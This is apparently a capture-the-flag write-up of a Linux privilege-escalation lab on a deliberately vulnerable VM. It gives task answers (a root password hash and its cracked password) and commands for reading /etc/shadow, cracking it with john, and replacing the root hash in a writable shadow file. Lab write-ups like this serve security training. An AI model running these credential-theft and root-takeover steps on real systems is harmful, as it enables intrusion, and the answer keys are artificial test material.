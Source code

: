 # Linux PrivEsc

November 23, 2023

#### Task 1: Deploy The Vulnerable Debian VM

- Deploy the machine and login to the "user" account using SSH.
	- `No answer needed`

- Run the "id" command. What is the result?
	- `uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)`

#### Task 2: Service Exploits

- Read and follow along with the above.
	- `No answer needed`

#### Task 3: Weak File Permissions - Readable /etc/shadow

- What is the root user's password hash?
	- `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

- What hashing algorithm was used to produce the root user's password hash?
	- `sha512crypt`

- What is the root user's password?
	- `password123`

Steps to get the root user's password.
```
ls -l /etc/shadow
cat /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt for-john.txt
john --show for-john.txt
su root
```

#### Task 4: Weak File Permissions - Writable /etc/shadow

- Read and follow along with the above.
	- `No answer needed`

If the /etc/shadow/ can be edit, you can generate a new password then replace the old password between the first and second colons (:) of each line. (ex. root:sha-512passwordhere:17298:0:99999:7:::)

```
ls -l /etc/shadow/
mkpasswd -m sha-512 newpasswordhere
su root
```

#### Task 5: Weak File Permissions - Writable /etc/passwd

- Run the "id" command as the newroot user. What is the result?
	- `uid=0(root) gid=0(root) groups=0(root)`
